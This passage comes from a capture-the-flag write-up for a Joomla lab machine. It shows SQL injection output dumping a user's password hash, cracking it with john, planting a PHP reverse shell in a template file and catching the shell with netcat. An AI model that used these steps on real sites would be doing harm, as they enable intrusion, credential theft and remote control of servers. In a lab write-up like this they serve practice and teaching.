 ~~~

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
~~~

I saved the hash in a file called "johan.hash" and cracked it using john and rockyou wordlist:

~~~
john jonah.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:06:01 DONE (2021-09-25 03:01) 0.002762g/s 129.3p/s 129.3c/s 129.3C/s thebadboy..spaceship
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Jonah's password: `spiderman123`

## User Flag

I used the creds to login to admin panel from `/administrator/` and now I can change the one of the files to a reverse shell and gain a shell. I went to `Extentions > Templates > Templates` and chose the first one and from the list on the left I chose *index.php* and changed it to a php reverse shell which you can get it [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). (Don't forget to cahnge the IP and port you want to get the shell on.) Then I clicked on `Save` and started a listener and then called the shell:

listener:
~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...

~~~

called the shell:
~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ curl http://10.10.74.217:80/templates/beez3/index.php

~~~

And now we have a shell:

~~~
┌──(user㉿Y0B01)-[~/Desktop/thm/dailyBugle/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.0.135] from (UNKNOWN) [10.10.74.217] 54438
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:33:24 up  1:32,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
id
id
uid=48(apache) gid=48(apache) groups=48(apache)
~~~